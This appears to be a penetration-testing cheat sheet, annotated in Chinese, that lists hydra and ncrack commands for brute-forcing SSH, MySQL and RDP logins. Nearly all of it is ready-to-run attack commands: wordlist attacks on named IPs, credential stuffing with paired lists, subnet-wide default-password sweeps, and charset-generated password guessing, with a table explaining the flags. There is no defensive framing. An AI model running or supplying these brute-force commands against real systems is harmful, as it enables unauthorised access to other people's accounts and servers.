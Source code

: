 ## hydra

**ssh**

sudo hydra -l root -P wordlist.TXT ssh：//192.168.136.142

**mysql**

```sh
-l <user_string>
-L <user_file>
-p <password_string>
-P <password_file>

# 爆破mysql
hydra -l root -P ./password.txt -t 1 -e n -f -v 192.168.43.17 mysql -w 1
hydra -l root -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql
hydra -L ./user.txt -P ./password.txt -t 2 -e n -f -v 192.168.43.17 mysql

# 爆破ssh
hydra -l serlon -P pass.txt 192.168.0.227 ssh     # 知道用户名不知道密码
hydra -l jan -P /opt/rockyou.txt ssh://10.10.100.180 # 知道用户名不知道密码
hydra -L userlist.txt -p 123456 192.168.0.227 ssh # 知道密码不知道用户名
hydra -l admin -p password 192.168.0.0/24 ssh     # 知道用户名和密码但不知道ip
hydra -C default.txt 192.168.0.227                # 知道一组成对的用户名和密码来撞库
hydra -L logins.txt -P pws.txt -M target.txt ssh  # 都不知道
hydra -l wenber -V -x 3:3:1 rdp://127.0.0.1:3389
## -x MIN:MAX:CHARSET  3 到 3 个字符, 1为数字
### 'a' for lowercase letters, 'A' for uppercase letters, '1' for numbers, and for all others, just add their real representation.
### -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
### -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
### -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
### -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-

```

| param   | Description                                                                     |
| ------- | ------------------------------------------------------------------------------- |
| -f      | exit after the first found login/password pair (per host if -M)                 |
| -F      | exit after the first found login/password pair for any host (for usage with -M) |
| -C FILE | colon separated "login:pass" format, instead of -L/-P options                   |
| -e nsr  | "n" for null password, additional checks,                                       |
|         | "s" try login as pass                                                           |
|         | "r" try the reverse login as pass                                               |
# rdp

## rdp/hydra

```sh
hydra rdp://192.168.1.1:3389 -l admin -p 123456 -V -F
hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.1

hydra -L user.txt -P pwd.txt 172.22.9.26 rdp -F -vV -e ns
hydra 192.168.50.210 rdp -l admin -p 123456 -V -F
hydra 192.168.31.22 rdp -L /usr/share/wordlists/dirbuster/password2.txt -P /usr/share/wordlists/dirbuster/password1.txt -V -F
```

## rdp/御剑RDP爆破工具/超级弱口令检查工具/fscan/
## rdp/ncrack 3389 rdp 爆破

```sh
ncrack -p 3389 -v -user admin -pass 123456 192.168.52.0/24
ncrack -p 3389 -v -user admin -P /usr/share/wordlists/rockyou.txt 192.95.xx.xx
ncrack -p 3389 -v -user admin -pass 123456Aa@@ 192.168.52.143

# -T<0-5> 越高越快
ncrack -p 3389 -v -user admin -P ./6位数字.txt 192.168.52.143 -T2 -oN output.txt
```
